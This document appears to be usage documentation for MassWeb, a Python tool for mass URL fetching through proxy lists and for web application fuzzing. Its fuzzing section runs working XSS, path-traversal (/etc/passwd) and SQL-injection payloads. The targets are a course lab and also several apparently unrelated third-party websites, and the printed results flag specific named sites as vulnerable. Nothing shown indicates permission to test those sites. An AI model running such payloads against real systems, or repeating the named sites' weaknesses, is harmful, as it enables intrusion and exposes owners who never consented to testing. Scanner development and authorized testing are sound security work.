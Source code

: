 MassWeb Usage
=============

There are two main use cases for MassWeb: mass requests of URLs or mass scanning for vulnerabilities of these URLs


Mass Requests
-------------

Mass requests is done via MassWeb's MassRequest object. Let's say, you're just interested in requesting a bunch of URLs in a reasonable amount of time, and don't want to deal with getting into the MassWeb API:

``Python 2.7.3 (default, Jan  2 2013, 13:56:14) 
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from massweb.mass_requests.mass_request import MassRequest
>>> urls_to_fetch = ["http://www.hyperiongray.com", "http://course.hyperiongray.com/vuln1/", "http://course.hyperiongray.com/vuln2/898538a7335fd8e6bac310f079ba3fd1/"]
>>> mr = MassRequest()
>>> mr.get_urls(urls_to_fetch)
>>> for r in mr.results:
...     print r
... 
('http://www.hyperiongray.com', <Response [200]>)
('http://course.hyperiongray.com/vuln2/898538a7335fd8e6bac310f079ba3fd1/', <Response [200]>)
('http://course.hyperiongray.com/vuln1/', <Response [200]>)``

In other words, simply instantiate a MassRequest object and pass in any iterable to the 
:meth:`get_urls` function. Note that by default, the MassRequest object works with 10 threads and has a timeout of 10 seconds per URL (more on this later). What is returned is a tuple of the form: ``(url_fetched, Response)``

To retrieve results, you can use the :data:`mr.results` attribute, which simply returns a tuple with the url fetched and a `Python Requests response object <http://docs.python-requests.org/en/latest/api/>`_, which gives you access to everything you could ever want about the response.

So let's consider a more complicated example, let's say we want to load in a bunch of URLs to fetch via GET, but we also have some POST requests we want to send. We do that by using the Target object to prepare our URLs and POST data before sending it:
``>>> from massweb.mass_requests.mass_request import MassRequest
>>> from massweb.targets.target import Target
>>>
>>> target_1 = Target(url = "http://course.hyperiongray.com/vuln1", data = {"password" : "blh123"}, ttype = "post")
>>> target_2 = Target(url = "http://course.hyperiongray.com/vuln2/898538a7335fd8e6bac310f079ba3fd1/", data = {"how" : "I'm good thx"}, ttype = "post")
>>> target_3 = Target(url = "http://www.hyperiongray.com/", ttype = "get")
>>> targets = [target_1, target_2, target_3]
>>> mr = MassRequest()
>>> mr.request_targets(targets)
>>> for r in mr.results:
...     print r
... 
(<massweb.targets.target.Target object at 0x15496d0>, <Response [200]>)
(<massweb.targets.target.Target object at 0x1549650>, <Response [200]>)
(<massweb.targets.target.Target object at 0x1549490>, <Response [200]>)
>>> for r in mr.results:
...     print r[0], r[1].status_code
... 
http://course.hyperiongray.com/vuln2/898538a7335fd8e6bac310f079ba3fd1/ 200
http://www.hyperiongray.com/ 200
http://course.hyperiongray.com/vuln1 200``

Again, pretty simple, just create a Target object with the parameters url, data (if it's a POST request), and ttype of &quot;post&quot; or &quot;get&quot;. Put these in some kind of iterable and pass it off to mr.request_targets(), which does all of the work for you. What is returned is a tuple with the Target object (which casts to a URL) and a Python Requests Response object.

This is all great, but it's called MASSWeb, not fetch-me-3-urls-web. Let's see how we could conduct mass requests with this thing. Let's say we have a series of about 1000 URLs and we want them fast, we don't have time to wait to make sure our data is perfect, we want some quick and dirty responses if possible and if they take too long, produce a timeout. First, let's say you have a file called urls.txt of 1000 URLs and we want them in less then 2000 seconds or 2 seconds per URL. In other words, if it's not a URL that can be fetched quickly, move on. This can be useful for things like web crawling when you have no idea how long a target is going to take to respond and get you your data, so regardless of whether it's a networking issue, too-much-data issue or anything else, we want a hard timeout of 2 seconds per URL. Here's how we would do that:
``>>> from massweb.mass_requests.mass_request import MassRequest
>>> mr = MassRequest(num_threads = 20, time_per_url = 2, proxy_list = [{"http":"http://user:password@10.0.0.1:3089/"}, {"http":"http://user:password@10.0.0.2:3089/"}])
>>> f = open("../urls.txt")
>>> mr.get_urls(f)
>>> len(mr.results)
1000
>>> for i in range(1,10):
...     print mr.results[i]
... 
('http://www.abcselfstorage.co.uk/', '__PNK_REQ_FAILED')
('http://www.abcskiphirews32.co.uk/', '__PNK_REQ_FAILED')
('http://abcskateboarding.co.uk/', <Response [404]>)
('http://www.abcsalestraining.co.uk/', <Response [200]>)
('http://www.abcservice.co.uk/', <Response [200]>)
('http://www.abcseaangling.co.uk/', <Response [200]>)
('http://www.abcselfdrive.co.uk/', <Response [404]>)
('http://www.abcselfstore.co.uk/storage-blogwp-login.php?redirect_to=http%3A%2F%2Fwww.abcselfstore.co.uk%2Fstorage-blog%2Fwp-admin%2F&amp;reauth=1', <Response [404]>)
('http://www.abcselfstore.co.uk/abc24-hour-access.html', <Response [200]>)``

We've already seen what is returned in normal cases, but the first couple of items show a funny __PNK_REQ_FAILED string being returned instead of the Python Requests Response object that we expect. These are URLs that were not fetched properly for whatever reason, usually some kind of TCP timeout or an exception in Python Requests. Similarly if getting a URL times out (thread timeout, not TCP timeout), then __PNK_THREAD_TIMEOUT is returned. The proxy list is just a list of proxies `formatted like this<http://docs.python-requests.org/en/latest/user/advanced/#proxies>`_ specifies. Currently, requests get routed through proxies specified in the list at random, though we are currently working on improving this.


Web Application Fuzzing
=======================

MassWeb is also a web application scanner. Let's scan some websites!

We're going to take a look at the main (and only for now) scanning class, the WebFuzzer class. This works by:

# creating a set of Payloads that will get inserted into GET and POST parameters
# adding Targets (GET or POST requests to be performed) to the object
# Identifying additional POST requests on the GET requests specified, if you'd like
# Creating a list of &quot;Fuzzy Targets&quot; (Targets with payloads attached to them)
# Calling the .fuzz() method

The web app fuzzer allows you the same control that the MassRequest object allows you - it's automatically threaded, and you can set how much time you would like to allow it to take (it's also quite fast). That might sound like few steps to get up and running, but it's actually quite easy. Let's see it in action with a simple web app fuzzer:

``from massweb.payloads.payload import Payload
xss_payload = Payload('"><ScRipT>alert(31337)</ScrIpT>', check_type_list = ["xss"])
trav_payload = Payload('../../../../../../../../../../../../../../../../../../etc/passwd', check_type_list = ["trav"])
sqli_xpathi_payload = Payload("')--", check_type_list = ["sqli", "xpathi"])

wf = WebFuzzer(num_threads = 30, time_per_url = 5, proxy_list = [{"http":"http://user:password@10.0.0.1:3089/"}, {"http":"http://user:password@10.0.0.2:3089/"}])
wf.add_payload(xss_payload)
wf.add_payload(trav_payload)
wf.add_payload(sqli_xpathi_payload)
wf.add_target_from_url("http://course.hyperiongray.com/vuln1")
wf.add_target_from_url("http://course.hyperiongray.com/vuln2/898538a7335fd8e6bac310f079ba3fd1/")
wf.add_target_from_url("http://www.wpsurfing.co.za/?feed=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E")
wf.add_target_from_url("http://www.sfgcd.com/ProductsBuy.asp?ProNo=1%3E&amp;amp;ProName=1")
wf.add_target_from_url("http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;amp;typeofsite=snippetdetail&amp;amp;ID=1368&amp;amp;Sectionid=1")
wf.add_target_from_url("http://www.dobrevsource.org/index.php?id=1")

print "Targets list pre post determination:"
for target in wf.targets:
    print target

print "Targets list after additional injection points have been found:"
wf.determine_posts_from_targets()
for target in wf.targets:
    print target.url, target.data

print "FuzzyTargets list:"
wf.generate_fuzzy_targets()
for ft in wf.fuzzy_targets:
    print ft, ft.ttype, ft.data

print "Results of our fuzzing:"
for r in wf.fuzz():
    print r, r.fuzzy_target.ttype, r.fuzzy_target.payload``

Let's run through the above code, first we create a Payload object, where we add the payload string and a check type list. The check_type_list marks the vulnerability or vulnerabilities that your payload is testing for - valid ones are: 
* mxi (mail header injection)
*  osci (os command injection)
* sqli (SQL injection)
* trav (path traversal)
* xpathi (XPath injection)
* xss (cross site scripting)

The first two test for XSS and Path Traversal, while the third one is a valid payload for both SQL Injection and XPath Injection. Then we instantiate the WebFuzzer() object, passing in some of our favorite parameters 
:data:`num_threads` and :data`time_per_url`, and then add the |Payloads| to it. Next up, we add our |Targets|, we chose in the above to just add targets via a URL, but this could also be done by adding a Target object and the :meth:`.add_target()` method, which would look something like the following:
``from massweb.fuzzers.web_fuzzer import WebFuzzer
wf = WebFuzzer()
target_1 = Target("http://www.hyperiongray.com")
target_2 = Target("http://course.hyperiongray.com/vuln1", data = {"password" : "blah"}, ttype = "post")``

The advantage to specifying a Target object instead of adding targets via a URL string is that you can explicitly specify POST requests that you'd like to be included in your scanning. However, in most cases this is a pain, this information would have to be determined by a web scraping script of some sort to determine valid forms, valid parameters within those forms, etc. We wanted an easier way. In the above example (Web App Fuzzing Example 1) on line 26, calling ``wf.determine_posts_from_targets()`` will reach out to the existing Target set and try to find POST requests for you (note: this only supports finding basic forms for now, not AJAX POSTs or others) and automatically adds them to the target set.

Following that, we must create our set of GET and POST requests with payloads inserted explicitly, which is done via the ``wf.generate_fuzzy_targets()`` method. You can access the FuzzyTarget classes that this creates by the :obj:`.fuzzy_targets` object attribute. FuzzyTargets are exactly like Targets, except they include the payload that was used to generate it, which can be accessed via the :obj:`.payload` attribute on a FuzzyTargets class.

Once the FuzzyTargets are generated, we can fuzz with ``wf.fuzz()`` which outputs a Result object. A result object is simply a result dictionary (e.g. &quot;results&quot;: {&quot;xpathi&quot;: False, &quot;sqli&quot;: False}) and the FuzzyTarget object that achieved this result. When cast to string, a Result object returns valid JSON.*

So let's visualize all of that so that it makes a bit more sense:

Targets list pre post determination:
``http://course.hyperiongray.com/vuln1
http://course.hyperiongray.com/vuln2/898538a7335fd8e6bac310f079ba3fd1/
http://www.wpsurfing.co.za/?feed=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E
http://www.sfgcd.com/ProductsBuy.asp?ProNo=1%3E&amp;amp;ProName=1
http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;amp;typeofsite=snippetdetail&amp;amp;ID=1368&amp;amp;Sectionid=1
http://www.dobrevsource.org/index.php?id=1``

Targets list after additional injection points have been found:
``http://course.hyperiongray.com/vuln1 None
http://course.hyperiongray.com/vuln2/898538a7335fd8e6bac310f079ba3fd1/ None
http://www.wpsurfing.co.za/?feed=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E None
http://www.sfgcd.com/ProductsBuy.asp?ProNo=1%3E&amp;amp;ProName=1 None
http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;amp;typeofsite=snippetdetail&amp;amp;ID=1368&amp;amp;Sectionid=1 None
http://www.dobrevsource.org/index.php?id=1 None
http://www.sfgcd.com/Search.asp {u'SubmitSearch': '', u'KeyWord': ''}
http://course.hyperiongray.com/formhandler.php {u'password': ''}
http://www.sfgcd.com/ProductsBuy.asp?Action=Buy {}
http://course.hyperiongray.com/vuln2/898538a7335fd8e6bac310f079ba3fd1/formhandler.php {u'how': ''}``

FuzzyTargets list:
``http://www.wpsurfing.co.za/?feed=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E get None
http://www.wpsurfing.co.za/?feed=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd get None
http://www.wpsurfing.co.za/?feed=%27%29-- get None
http://www.sfgcd.com/ProductsBuy.asp?ProNo=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E&amp;ProName=1 get None
http://www.sfgcd.com/ProductsBuy.asp?ProNo=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&amp;ProName=1 get None
http://www.sfgcd.com/ProductsBuy.asp?ProNo=%27%29--&amp;ProName=1 get None
http://www.sfgcd.com/ProductsBuy.asp?ProNo=1%3E&amp;ProName=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E get None
http://www.sfgcd.com/ProductsBuy.asp?ProNo=1%3E&amp;ProName=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd get None
http://www.sfgcd.com/ProductsBuy.asp?ProNo=1%3E&amp;ProName=%27%29-- get None
http://www.gayoutdoors.com/page.cfm?snippetset=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E&amp;typeofsite=snippetdetail&amp;ID=1368&amp;Sectionid=1 get None
http://www.gayoutdoors.com/page.cfm?snippetset=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&amp;typeofsite=snippetdetail&amp;ID=1368&amp;Sectionid=1 get None
http://www.gayoutdoors.com/page.cfm?snippetset=%27%29--&amp;typeofsite=snippetdetail&amp;ID=1368&amp;Sectionid=1 get None
http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E&amp;ID=1368&amp;Sectionid=1 get None
http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&amp;ID=1368&amp;Sectionid=1 get None
http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=%27%29--&amp;ID=1368&amp;Sectionid=1 get None
http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=snippetdetail&amp;ID=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E&amp;Sectionid=1 get None
http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=snippetdetail&amp;ID=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&amp;Sectionid=1 get None
http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=snippetdetail&amp;ID=%27%29--&amp;Sectionid=1 get None
http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=snippetdetail&amp;ID=1368&amp;Sectionid=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E get None
http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=snippetdetail&amp;ID=1368&amp;Sectionid=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd get None
http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=snippetdetail&amp;ID=1368&amp;Sectionid=%27%29-- get None
http://www.dobrevsource.org/index.php?id=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E get None
http://www.dobrevsource.org/index.php?id=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd get None
http://www.dobrevsource.org/index.php?id=%27%29-- get None
http://www.sfgcd.com/Search.asp post {u'SubmitSearch': "')--", u'KeyWord': ''}
http://www.sfgcd.com/Search.asp post {u'SubmitSearch': "')--", u'KeyWord': ''}
http://www.sfgcd.com/Search.asp post {u'SubmitSearch': "')--", u'KeyWord': ''}
http://www.sfgcd.com/Search.asp post {u'SubmitSearch': '', u'KeyWord': "')--"}
http://www.sfgcd.com/Search.asp post {u'SubmitSearch': '', u'KeyWord': "')--"}
http://www.sfgcd.com/Search.asp post {u'SubmitSearch': '', u'KeyWord': "')--"}
http://course.hyperiongray.com/formhandler.php post {u'password': "')--"}
http://course.hyperiongray.com/formhandler.php post {u'password': "')--"}
http://course.hyperiongray.com/formhandler.php post {u'password': "')--"}
http://course.hyperiongray.com/vuln2/898538a7335fd8e6bac310f079ba3fd1/formhandler.php post {u'how': "')--"}
http://course.hyperiongray.com/vuln2/898538a7335fd8e6bac310f079ba3fd1/formhandler.php post {u'how': "')--"}
http://course.hyperiongray.com/vuln2/898538a7335fd8e6bac310f079ba3fd1/formhandler.php post {u'how': "')--"}``

Results of our fuzzing:
``{"url": "http://www.sfgcd.com/ProductsBuy.asp?ProNo=1%3E&amp;ProName=%27%29--", "results": {"xpathi": false, "sqli": false}} get ')--
{"url": "http://www.wpsurfing.co.za/?feed=%27%29--", "results": {"xpathi": false, "sqli": false}} get ')--
{"url": "http://www.wpsurfing.co.za/?feed=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E", "results": {"xss": true}} get "><ScRipT>alert(31337)</ScrIpT>
{"url": "http://www.wpsurfing.co.za/?feed=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd", "results": {"trav": false}} get ../../../../../../../../../../../../../../../../../../etc/passwd
{"url": "http://www.sfgcd.com/ProductsBuy.asp?ProNo=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&amp;ProName=1", "results": {"trav": false}} get ../../../../../../../../../../../../../../../../../../etc/passwd
{"url": "http://www.gayoutdoors.com/page.cfm?snippetset=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&amp;typeofsite=snippetdetail&amp;ID=1368&amp;Sectionid=1", "results": {"trav": false}} get ../../../../../../../../../../../../../../../../../../etc/passwd
{"url": "http://www.sfgcd.com/ProductsBuy.asp?ProNo=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E&amp;ProName=1", "results": {"xss": false}} get "><ScRipT>alert(31337)</ScrIpT>
{"url": "http://www.sfgcd.com/ProductsBuy.asp?ProNo=1%3E&amp;ProName=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd", "results": {"trav": false}} get ../../../../../../../../../../../../../../../../../../etc/passwd
{"url": "http://www.gayoutdoors.com/page.cfm?snippetset=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E&amp;typeofsite=snippetdetail&amp;ID=1368&amp;Sectionid=1", "results": {"xss": false}} get "><ScRipT>alert(31337)</ScrIpT>
{"url": "http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E&amp;ID=1368&amp;Sectionid=1", "results": {"xss": true}} get "><ScRipT>alert(31337)</ScrIpT>
{"url": "http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&amp;ID=1368&amp;Sectionid=1", "results": {"trav": false}} get ../../../../../../../../../../../../../../../../../../etc/passwd
{"url": "http://www.gayoutdoors.com/page.cfm?snippetset=%27%29--&amp;typeofsite=snippetdetail&amp;ID=1368&amp;Sectionid=1", "results": {"xpathi": false, "sqli": false}} get ')--
{"url": "http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=snippetdetail&amp;ID=1368&amp;Sectionid=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E", "results": {"xss": true}} get "><ScRipT>alert(31337)</ScrIpT>
{"url": "http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=%27%29--&amp;ID=1368&amp;Sectionid=1", "results": {"xpathi": false, "sqli": false}} get ')--
{"url": "http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=snippetdetail&amp;ID=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E&amp;Sectionid=1", "results": {"xss": false}} get "><ScRipT>alert(31337)</ScrIpT>
{"url": "http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=snippetdetail&amp;ID=%27%29--&amp;Sectionid=1", "results": {"xpathi": false, "sqli": false}} get ')--
{"url": "http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=snippetdetail&amp;ID=1368&amp;Sectionid=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd", "results": {"trav": false}} get ../../../../../../../../../../../../../../../../../../etc/passwd
{"url": "http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=snippetdetail&amp;ID=1368&amp;Sectionid=%27%29--", "results": {"xpathi": false, "sqli": true}} get ')--
{"url": "http://www.gayoutdoors.com/page.cfm?snippetset=yes&amp;typeofsite=snippetdetail&amp;ID=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&amp;Sectionid=1", "results": {"trav": false}} get ../../../../../../../../../../../../../../../../../../etc/passwd
{"url": "http://www.dobrevsource.org/index.php?id=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E", "results": {"xss": false}} get "><ScRipT>alert(31337)</ScrIpT>
{"url": "http://www.dobrevsource.org/index.php?id=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd", "results": {"trav": true}} get ../../../../../../../../../../../../../../../../../../etc/passwd
{"url": "http://www.dobrevsource.org/index.php?id=%27%29--", "results": {"xpathi": false, "sqli": false}} get ')--
{"url": "http://www.sfgcd.com/ProductsBuy.asp?ProNo=1%3E&amp;ProName=%22%3E%3CScRipT%3Ealert%2831337%29%3C%2FScrIpT%3E", "results": {"xss": false}} get "><ScRipT>alert(31337)</ScrIpT>
{"url": "http://course.hyperiongray.com/formhandler.php", "results": {"xss": false}} post "><ScRipT>alert(31337)</ScrIpT>
{"url": "http://course.hyperiongray.com/formhandler.php", "results": {"xpathi": false, "sqli": false}} post ')--
{"url": "http://course.hyperiongray.com/formhandler.php", "results": {"trav": false}} post ../../../../../../../../../../../../../../../../../../etc/passwd
{"url": "http://www.sfgcd.com/Search.asp", "results": {"xpathi": false, "sqli": false}} post ')--
{"url": "http://www.sfgcd.com/Search.asp", "results": {"xss": false}} post "><ScRipT>alert(31337)</ScrIpT>
{"url": "http://www.sfgcd.com/Search.asp", "results": {"trav": false}} post ../../../../../../../../../../../../../../../../../../etc/passwd
{"url": "http://www.sfgcd.com/Search.asp", "results": {"xss": false}} post "><ScRipT>alert(31337)</ScrIpT>
{"url": "http://course.hyperiongray.com/vuln2/898538a7335fd8e6bac310f079ba3fd1/formhandler.php", "results": {"xss": false}} post "><ScRipT>alert(31337)</ScrIpT>
{"url": "http://course.hyperiongray.com/vuln2/898538a7335fd8e6bac310f079ba3fd1/formhandler.php", "results": {"trav": false}} post ../../../../../../../../../../../../../../../../../../etc/passwd
{"url": "http://www.sfgcd.com/Search.asp", "results": {"trav": false}} post ../../../../../../../../../../../../../../../../../../etc/passwd
{"url": "http://course.hyperiongray.com/vuln2/898538a7335fd8e6bac310f079ba3fd1/formhandler.php", "results": {"xpathi": false, "sqli": false}} post ')--
{"url": "http://www.sfgcd.com/Search.asp", "results": {"xpathi": false, "sqli": false}} post ')--
{"url": "http://www.sfgcd.com/ProductsBuy.asp?ProNo=%27%29--&amp;ProName=1", "results": {"xpathi": false, "sqli": false}} get ')--``
